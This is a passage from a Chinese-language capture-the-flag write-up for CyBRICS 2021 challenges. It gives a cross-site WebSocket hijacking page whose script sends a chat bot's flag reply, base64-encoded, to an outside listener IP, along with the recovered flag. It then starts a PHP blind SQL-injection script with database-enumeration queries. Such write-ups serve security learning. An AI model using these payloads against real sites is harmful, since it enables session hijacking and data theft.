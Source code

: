 ```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            const socket = new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");

            socket.onopen = function(e){
                socket.send("Hey, i forgot the flag. Can you remind me?");
            }
            socket.onmessage = function(e){
                var exportFlag = new XMLHttpRequest();
                exportFlag.open('get', 'http://8.136.8.210:3255/flagis-' + window.btoa(e.data));
                exportFlag.send();
            }
        </script>
    </body>
</html>
```

将页面放在自己的服务器上，提交给靶机，可在监听的端口处得到如下响应。

![](https://api.lemonprefect.cn/image/hdslb/archive/638458dd-4c5a-4116-95aa-da2199cd24a8/1627146665815106/cc0e33635d5c036ca114db256c8ece558677e3d2.jpg)

将其中带出的信息解码可得如下内容。

```plain text
Sure, dude. The flag is cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

```flag
cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

#### [CyBRICS 2021] Announcement

> Author: Alexander Menshchikov (@n0str)
>
> Ladies and gentlemen!
>
> Allow us to introduce a brand new project —
> ⚐ The Flag

在提交的参数中 SQL 注入，其中 `digest` 参数的值需为 `email` 的 MD5。

![](https://api.lemonprefect.cn/image/hdslb/archive/638458dd-4c5a-4116-95aa-da2199cd24a8/1627147306218176/cf696473812c358ea52022ff8ccbbc179861027a.png)

写脚本构造报错逻辑进行盲注。

```php
<?php

use GuzzleHttp\Client;

require '../vendor/autoload.php';
$URL = "http://announcement-cybrics2021.ctf.su/";
//$statement = "select database()"; //announcement
//$statement = "select group_concat(table_name) from information_schema.tables where table_schema=database()"; //emails,logs
//$statement = "select group_concat(column_name) from information_schema.columns where table_schema=database()"; //email,id,timestamp,log
$statement = "select group_concat(log) from announcement.logs"; //flag
$text = "";

$client = new Client(array(
    "timeout" => 5,
    "allow_redirects" => false,
    "verify" => false
```